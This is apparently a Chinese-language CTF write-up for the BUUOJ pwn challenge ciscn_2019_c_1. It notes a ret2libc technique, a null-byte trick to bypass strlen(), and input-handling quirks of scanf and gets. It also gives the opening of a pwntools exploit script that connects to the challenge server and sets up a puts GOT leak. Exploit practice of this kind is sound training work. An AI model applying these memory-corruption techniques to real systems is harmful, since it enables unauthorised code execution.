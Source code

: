### 1    ciscn_2019_c_1

### 考点：ret2libc+strlen()绕过

![[Pasted image 20240912223254.png]]

![[Pasted image 20240912223454.png]]

![[Pasted image 20240912223516.png]]

收获：
1.在这一题中我学到了通过输入"\\\0"字符可以截断strlen()函数的读取，在这一题里面可以直接用这种方法去绕过加密。
2.scanf和gets函数接收和停止输入的标准。
   scanf`函数的输入结束符是空白字符，也就是空格、制表符、和换行符这些，而`gets`函数的输入结束符是回车换行符。另外值得注意的就是用`scanf`函数输入字符串时，它是从第一个非空白字符开始读取，而`gets`函数无这个特性。
3.puts函数会自带一个换行符。这也就是为什么要接收\\n后再接收泄露地址。
4.这种题本地泄露的函数地址和远程泄露的函数地址不一样。得出来的libc的版本也不一样。

```
from pwn import*
from LibcSearcher import LibcSearcher

def init(file1,file2,x):
    if file2:
        if x:
            return process(file1),ELF(file1),ELF(file2)
        else:
            return remote("node5.buuoj.cn",29300),ELF(file1),ELF(file2)
    else:
        if x:
            return process(file1),ELF(file1)
        else:
            return remote("node5.buuoj.cn",26832),ELF(file1)

p,elf=init("./ciscn_2019_c_1",0,0)

  

def log(a,b,c):
    if a:
        context.log_level="debug"
    if b:
        context.os='linux'
    if c:
        context.arch='amd64'  
        
log(0,1,1)

  
def real(name1,name2):
    if name1:
        plt=elf.plt[name1]
        got=elf.got[name1]
        sym=elf.symbols[name2]
        return plt,got,sym

plt,got,sym=real("puts","main")

r = lambda x: p.recv(x)
ru = lambda str: p.recvuntil(str)
rul1 =lambda : u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
rul2 = lambda : u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
s = lambda str: p.send(str)
```